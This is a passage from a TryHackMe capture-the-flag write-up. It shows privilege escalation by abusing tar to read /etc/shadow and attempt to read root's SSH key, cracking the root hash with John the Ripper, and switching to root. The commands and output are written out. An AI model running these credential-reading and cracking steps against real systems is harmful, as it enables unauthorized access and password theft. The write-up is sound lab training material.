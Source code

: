 **According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#file-read), we can reads data from files:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Server-From-Hell/images/a1.png)

**Which means I can read `/etc/shadow`??**
```
hades@hell:~$ tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'
root:$6$gOnbjpUs${Redacted}/h9dOgaDaphveFY9ScIetMiI8F/XOnTxJxi1:18520:0:99999:7:::
[...]
```

Yes I can! :D

**Now, my theroy is: If user `hades` has a private SSH key, then user `root` should also has it!**
```
hades@hell:~$ tar xf /root/.ssh/id_rsa -I '/bin/sh -c "cat 1>&2"'
tar (child): /root/.ssh/id_rsa: Cannot open: No such file or directory
tar (child): Error is not recoverable: exiting now
/bin/tar: Child returned status 2
/bin/tar: Error is not recoverable: exiting now
```

Nope...

**Hmm... If we are able to read `/etc/shadow`, why not cracking root's hash?**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# nano root.hash  
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt root.hash        
[...]
{Redacted}         (root)
```

**Cracked! Let's Switch User to root!**
```
hades@hell:~$ su root
Password: 
root@hell:/home/hades# whoami;hostname;id;ip a
root
hell
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:2b:4b:69:b7:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.204/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3096sec preferred_lft 3096sec
    inet6 fe80::2b:4bff:fe69:b75b/64 scope link 
       valid_lft forever preferred_lft forever
```
